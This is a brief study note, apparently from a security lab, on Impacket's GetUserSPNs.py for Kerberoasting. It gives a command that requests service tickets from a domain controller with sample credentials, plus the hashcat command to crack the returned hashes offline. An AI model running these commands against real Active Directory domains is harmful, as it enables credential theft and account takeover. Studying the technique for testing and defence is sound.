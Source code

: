 <- [[Kerberos]]

# GetUserSPNs.py - Impacket
Part of #Impacket.

> This module will try to find Service Principal Names that are associated with normal user account. Since normal account's password tend to be shorter than machine accounts, and knowing that a TGS request will encrypt the ticket with the account the SPN is running under, this could be used for an offline bruteforcing attack of the SPNs account NTLM hash if we can gather valid TGS for those SPNs.

\- [GetUserSPNs.py Github](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py)

![[GetUsersSPNs-usage.png]]

## Example Usage
`sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.173.126 -request`
- `controller.local` - domain name
- `Machine1:Password1` - user acct and password
- `-dc-ip` - IP of DC
- `-request` 

The returned hash can be cracked with hashcat:
`hashcat -m 13100 -a 0 <in-hash>.txt <wordlist>.txt`

